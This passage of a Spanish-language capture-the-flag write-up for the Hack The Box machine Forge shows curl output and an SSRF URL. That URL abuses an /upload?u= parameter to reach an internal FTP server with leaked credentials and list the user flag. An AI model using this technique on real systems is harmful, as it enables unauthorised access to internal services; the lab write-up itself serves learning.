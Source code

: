 ```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ curl http://forge.htb/uploads/MvbRv9Uv2wRfO9P0Hwht
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:XXXXXXXXXXXXXX</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

Podemos ver varias cosas aquí. La primera es que nos dicen que se ha montado un servidor **FTP** de forma interna y nos dan credenciales para el mismo.

La segunda es que también se nos dice que en la ruta `upload` del subdominio `admin` se ha habilitado la funcionalidad de **FTP**

Y por último, nos hacen saber que han configurado la ruta `upload` para poder subir archivos con el **parámetro GET** '`u`'.

Con toda esta información está claro que podemos intentar acceder al FTP desde el panel de subida de archivos del subdominio `admin`.

Para hacer esto, la url que tendríamos que introducir quedaría tal que así: 

> `http://ADMIN.FORGE.HTB/upload?u=ftp://user:PASSWORD@FORGE.HTB/` # Cambia la contraseña

Probemos:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ curl http://forge.htb/uploads/cG9uemTqesBoClcw4r0R
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Jan 23 13:16 user.txt
```
¡Está funcionando!, a partir de aquí podremos visualizar la flag `user.txt` añadiendo el nombre de este archivo a la URL expuesta arriba.
